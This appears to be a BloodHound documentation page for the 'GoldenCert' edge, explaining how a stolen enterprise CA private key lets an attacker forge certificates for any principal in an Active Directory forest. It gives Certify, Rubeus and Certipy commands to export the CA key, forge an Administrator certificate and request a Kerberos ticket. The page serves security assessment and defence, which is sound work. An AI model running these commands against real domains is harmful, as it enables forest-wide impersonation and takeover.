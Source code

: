 ```yaml
---
title: GoldenCert
description: The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key

Use Certify (2.0) to export all certificates in the local machine certificate store and identify the CA certificate by the name of the CA:

```cmd
Certify.exe manage-self --dump-certs
```

#### Step 2

Forge certificate and obtain a TGT as targeted principal.

Forge a certificate of a target principal:
```cmd
Certify.exe forge --ca-cert <pfx-path/base64-pfx> --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
```

Request a TGT for the targeted principal using the certificate with Rubeus:
```cmd
Rubeus.exe asktgt /user:Administrator /domain:dumpster.fire /certificate:<pfx-path/base64-pfx>
```
### Linux

#### Step 1

Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy, and identify the CA certificate by the name of the CA.
```bash
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!'
```
#### Step 2

Forge a certificate of a target principal:
```bash
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire'
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```bash
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10'
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## Edge Schema

Source: [Computer](/resources/nodes/computer)  
Destination: [Domain](/resources/nodes/domain)  
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates](https://github.com/GhostPack/Certify/wiki/3-%E2%80%90-Domain-Persistence-Techniques#dpersist1---forging-certificates-with-stolen-ca-certificates)
* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

